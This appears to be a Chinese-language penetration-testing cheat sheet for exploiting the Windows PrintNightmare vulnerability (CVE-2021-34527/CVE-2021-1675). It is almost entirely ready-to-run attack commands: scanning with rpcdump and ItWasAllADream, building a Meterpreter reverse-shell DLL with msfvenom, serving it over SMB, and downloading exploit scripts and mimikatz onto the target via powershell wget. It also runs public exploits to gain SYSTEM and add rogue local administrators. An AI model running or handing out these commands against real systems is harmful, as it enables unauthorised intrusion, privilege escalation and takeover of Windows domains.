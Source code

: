  #### 检查
  	Impacket - rpcdump
	>python3 ./rpcdump.py @10.0.2.10 | egrep 'MS-RPRN|MS-PAR'
	ItWasAllADream
	>git clone https://github.com/byt3bl33d3r/ItWasAllADream
	>cd ItWasAllADream && poetry install && poetry shell
	>itwasalladream -u user -p Password123 -d domain 10.10.10.10/24
	>docker run -it itwasalladream -u username -p Password123 -d domain 10.10.10.10
 #### 执行
 ##### PrintNightmare-CVE-2021-34527
	攻击机执行
	>msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.1.2 lport=4444 -f dll -o evil.dll
	检测是否存在领漏洞
	>use auxiliary/admin/dcerpc/cve_2021_1675_printnightmare
	>set RHOSTS 192.168.1.190
	>set SMBUser ignite
	>set SMBPass 123
	>set DLL_PATH /
	>exploit
	监听
	>use multi/handler
	>set payload windows/x64/meterpreter/reverse_tcp
	>set LHOST 192.168.1.2
	>set LPORT 4444
	>exploit
	https://github.com/nemo-wq/PrintNightmare-CVE-2021-34527
	托管dll
	>python3 /usr/share/doc/python3-impacket/examples/smbserver.py share /root
	执行
	./CVE-2021-34527.py ignite:123@192.168.1.190 '\\192.168.1.2\share\evil.dll'
	即可获得system
	或使用powershell
	https://github.com/calebstewart/CVE-2021-1675.git
	>python3 -m http.server 80
	靶机执行>powershell wget http://192.168.1.2/CVE-2021-1675.ps1 -O \Users\Public\cve.ps1
	>powershell -ep bypass
	>Import-Module .\cve.ps1
	>Invoke-Nightmare -NewUser "harsh" -NewPassword "123" -DriverName "PrintMe"
	或使用mimikatz
	MSF监听后
	>python3 -m http.server 80
	>powershell wget http://192.168.1.2/mimikatz.exe -O \users\Public\mimikatz.exe
	>misc::printnightmare /library:\\192.168.1.2\share\evil.dll /authuser:ignite /authpassword:123 /try:50
 ##### SharpNightmare
  	https://github.com/cube0x0/CVE-2021-1675
	>python3 ./CVE-2021-1675.py hackit.local/domain_user:Pass123@192.168.1.10 '\\192.168.1.215\smb\addCube.dll'
	>python3 ./CVE-2021-1675.py hackit.local/domain_user:Pass123@192.168.1.10 'C:\addCube.dll'
	本地执行溢出
	>SharpPrintNightmare.exe C:\addCube.dll
	远程命令执行
	>SharpPrintNightmare.exe '\\192.168.1.215\smb\addCube.dll' 'C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_addb31f9bff9e936\Amd64\UNIDRV.DLL' '\\192.168.1.20'
	>SharpPrintNightmare.exe '\\192.168.1.215\smb\addCube.dll'  'C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_83aa9aebf5dffc96\Amd64\UNIDRV.DLL' '\\192.168.1.10' hackit.local domain_user Pass123
 ##### Invoke-Nightmare
	本地执行溢出
  	https://github.com/calebstewart/CVE-2021-1675
	>Import-Module .\cve-2021-1675.ps1
	>Invoke-Nightmare # add user `adm1n`/`P@ssw0rd` in the local admin group by default
	>Invoke-Nightmare -DriverName "Dementor" -NewUser "d3m3nt0r" -NewPassword "AzkabanUnleashed123*" 
	>Invoke-Nightmare -DLL "C:\absolute\path\to\your\bindshell.dll"
 ##### Mimikatz v2.2.0-20210709+
  	本地执行溢出
  	>misc::printnightmare /server:DC01 /library:C:\Users\user1\Documents\mimispool.dll
	远程命令执行
	>misc::printnightmare /server:CASTLE /library:\\10.0.2.12\smb\beacon.dll /authdomain:LAB /authuser:Username /authpassword:Password01 /try:50